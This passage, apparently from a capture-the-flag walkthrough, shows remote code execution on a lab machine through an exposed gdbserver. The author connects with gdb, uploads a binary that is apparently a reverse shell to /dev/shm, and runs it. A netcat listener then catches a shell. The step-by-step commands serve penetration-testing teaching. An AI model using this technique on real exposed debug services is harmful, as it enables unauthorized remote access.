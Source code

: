     
    
    oxdf@hacky$ gdb -q rev.elf 
    Reading symbols from rev.elf...
    (No debugging symbols found in rev.elf)
    (gdb)
    

Now connect to the remote server:

    
    
    (gdb) target extended-remote 10.10.11.125:1337
    Remote debugging using 10.10.11.125:1337
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
    Reading /lib64/ld-2.31.so from remote target...
    Reading /lib64/.debug/ld-2.31.so from remote target...
    Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
    Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
    Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
    (No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
    0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
    

With that connection, I can upload the binary:

    
    
    (gdb) remote put rev.elf /dev/shm/rev
    Successfully sent file "rev.elf".
    

Now I just need to set the remote debugging target to that file, and run it:

    
    
    (gdb) set remote exec-file /dev/shm/rev
    (gdb) run
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program:  
    Reading /dev/shm/rev from remote target...
    Reading /dev/shm/rev from remote target...
    Reading symbols from target:/dev/shm/rev...
    (No debugging symbols found in target:/dev/shm/rev)
    [Detaching after fork from child process 33603]
    [Inferior 1 (process 33592) exited normally]
    

When that finishes, there’s a connection at my listening `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.125 46586
    id
    uid=1000(user) gid=1000(user) groups=1000(user)
    